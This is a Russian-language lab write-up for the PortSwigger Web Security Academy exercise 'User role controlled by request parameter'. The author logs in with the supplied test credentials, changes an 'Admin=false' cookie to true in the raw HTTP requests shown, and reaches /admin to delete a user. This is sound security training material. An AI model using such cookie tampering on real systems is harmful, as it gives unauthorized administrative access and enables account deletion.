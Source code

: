 ```yaml
---
title: "User role controlled by request parameter"
date: 2025-07-17
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/access-control-apprentice/access-control/lab-user-role-controlled-by-request-parameter#"
classes: wide
---
```


В данной лабе есть админ панель в поддиректории `/admin`. Для прохождения нужно удалить пользователя `carlos`. У нас есть свой аккаунт с кредами `wiener:peter`.

```
https://0a7400940427e73e81239e93008800d6.web-security-academy.net/
```

## Solution

Так как у нас креды, было бы глупо не войти в наш аккаунт.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_controlled_by_request_parameter/1.png){: height="200" .align-center}

В `url` нашего профиля `https://0a7400940427e73e81239e93008800d6.web-security-academy.net/my-account?id=wiener` мы можем увидеть `GET`-параметр `my-account`.

Можно попробовать указать другое имя аккаунта. Например, `carlos`. И это не сработало :(

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_controlled_by_request_parameter/2.png){: height="200" .align-center}

Можно посмотреть `HTTP`-запрос, который мы отправляем для получения страницы:

```http
GET /my-account HTTP/2
Host: 0a7400940427e73e81239e93008800d6.web-security-academy.net
Cookie: session=Vy6WXmcR6UmR0et3TlDj5mwYWF2Xy5f4; Admin=false
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7400940427e73e81239e93008800d6.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
```

Мы можем увидеть, что в запросе нам установилось `Cookie`: `Admin` со значением `false`. Конечно же поменяем его на `True`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_controlled_by_request_parameter/3.png){: height="200" .align-center}

Попробуем таким же образом зайти в панель администратора:

```http
GET /admin HTTP/2
Host: 0a7400940427e73e81239e93008800d6.web-security-academy.net
Cookie: session=eRLogJbzgvCOwyqgzja8CRmzduJ8L2Dl; Admin=true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
```

Успех) Теперь просто удалим пользователя.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_controlled_by_request_parameter/4.png){: height="200" .align-center}